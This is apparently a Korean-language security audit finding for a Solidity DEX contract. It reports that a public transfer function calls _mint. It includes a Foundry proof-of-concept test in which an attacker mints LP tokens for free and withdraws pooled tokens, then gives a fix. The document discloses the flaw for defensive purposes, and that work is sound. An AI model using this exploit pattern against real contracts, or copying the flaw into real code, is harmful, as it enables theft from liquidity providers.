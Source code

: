 # Problem - Visibility Error

## 김영운, 김지우, 구민재

### 설명

문제 발생 - transfer function

```solidity
function transfer(address to, uint256 lpAmount) public override(ERC20, IDex) returns (bool) { //visibility
        _mint(to, lpAmount);
        return true;
}
```

- transfer 함수의 visibility가 public으로 설정되어 있어 누구나 호출할 수 있음
- _mint를 누구나할 수 있어 totalSupply(LP token양)를 조작할 수 있음

테스트

```solidity

contract CustomERC20 is ERC20 {
    constructor(string memory tokenName) ERC20(tokenName, tokenName) {
        _mint(msg.sender, 1000 ether);
    }

    function mint(uint amount) external {
        _mint(msg.sender,amount);
    }
}

contract DexTest is Test {
    Dex public dex;
    CustomERC20 tokenX;
    CustomERC20 tokenY;

    address player1 = address(0x1234);
    address player2 = address(0x1235);
    address player3 = address(0x1236);
    address player4 = address(0x1237);

    function setUp() public {
        tokenX = new CustomERC20("XXX");
        tokenY = new CustomERC20("YYY");

        dex = new Dex(address(tokenX), address(tokenY));

        tokenX.approve(address(dex), type(uint).max);
        tokenY.approve(address(dex), type(uint).max);

        vm.startPrank(player1);
        tokenX.mint(10000 ether);
        tokenY.mint(10000 ether);
        tokenX.approve(address(dex), type(uint).max);
        tokenY.approve(address(dex), type(uint).max);
        dex.addLiquidity(1000 ether, 1000 ether, 0); //lp = 1000
        vm.stopPrank();

        vm.startPrank(player2);
        tokenX.mint(10000 ether);
        tokenY.mint(10000 ether);
        tokenX.approve(address(dex), type(uint).max);
        tokenY.approve(address(dex), type(uint).max);
        dex.addLiquidity(1000 ether, 1000 ether, 0); //lp = 1000
        vm.stopPrank();

    }

    function testTransfer() external {
        vm.startPrank(player3);
        uint before = dex.balanceOf(player3);
        emit log_named_uint("before",before);
        bool t = dex.transfer(player3, 100 ether);
        uint a = dex.balanceOf(player3);
        emit log_named_uint("after",a);

        emit log_named_uint("before x:", tokenX.balanceOf(player3));
        emit log_named_uint("before y:", tokenY.balanceOf(player3));
        dex.removeLiquidity(dex.balanceOf(player3), 0,0);
        emit log_named_uint("after  x:", tokenX.balanceOf(player3));
        emit log_named_uint("after  y:", tokenY.balanceOf(player3));
        vm.stopPrank();
    }
}
```
<img width="432" alt="스크린샷 2023-03-26 오후 8 37 22" src="https://user-images.githubusercontent.com/127647051/227773104-9f0d829b-2cbd-4c8a-b556-4f3b75a8135c.png">


- player1, player2가 pool에 liquidity를 공급하였을때, player3가 100 ether를 mint하여 해당 LP token만큼 removeLiquidity할 수 있음

### 파급력

- Critical → 공격자는 mint 함수를 통해 LP token을 발행하여, liquidity를 pool에 공급하지 않더라도 pool에 있는 토큰을 모두 뺄 수 있음

### 해결방안

- transfer 함수의 visibility를 public → internal로 변경하기 또는 onlyOwner만 호출할 수 있도록 변경
